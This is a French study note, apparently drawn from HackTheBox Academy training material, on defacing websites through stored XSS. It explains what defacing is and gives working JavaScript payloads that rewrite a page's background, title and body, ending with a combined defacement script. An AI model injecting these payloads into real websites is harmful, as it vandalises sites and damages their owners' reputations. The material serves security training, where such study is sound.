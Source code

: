 # Defacing via XSS

***

## <mark style="color:red;">**Qu’est-ce que le Defacing ?**</mark>

* **Defacing** : Modification de l’apparence d’un site web pour les visiteurs.
* Utilisé par des hackers pour :
  * Revendiquer une intrusion réussie.
  * Diffuser un message ou une revendication.
  * Affecter la réputation d’une organisation.
* **Exemple notable** : Défiguration du site de la NHS britannique en 2018.

***

## <mark style="color:red;">**Exploitation des Vulnérabilités XSS pour le Defacing**</mark>

**Types de XSS Utilisés**

* Les attaques de defacing s’appuient principalement sur les **XSS stockés**, car ils permettent une persistance à travers les rafraîchissements de page et affectent tous les utilisateurs.

***

## <mark style="color:red;">**Éléments HTML pour Modifier une Page**</mark>

1. **Couleur de fond** :
   * Utilisation de `document.body.style.background` ou `document.body.background`.
   *   Exemple de payload :

       ```html
       <script>document.body.style.background = "#141d2b"</script>
       ```
   *   Peut aussi utiliser une image :

       {% code overflow="wrap" %}
       ```html
       <script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
       ```
       {% endcode %}
2. **Titre de la page** :
   *   Utilisation de `document.title` pour changer le titre affiché sur l’onglet :

       ```html
       <script>document.title = 'HackTheBox Academy'</script>
       ```
3. **Texte de la page** :
   *   Modification avec `innerHTML` pour changer le contenu d’un élément HTML :

       ```javascript
       document.getElementById("todo").innerHTML = "Texte modifié";
       ```
   *   Modification de tout le contenu du corps de la page :

       ```javascript
       document.getElementsByTagName('body')[0].innerHTML = "Nouveau contenu";
       ```

***

## <mark style="color:red;">**Création d’un Payload Complet pour le Defacing**</mark>

*   Exemple de payload combinant plusieurs modifications :

    {% code overflow="wrap" fullWidth="true" %}
    ```html
    <script>
      document.body.style.background = "#141d2b";
      document.title = 'HackTheBox Academy';
      document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px"></p></center>';
    </script>
    ```
    {% endcode %}

***
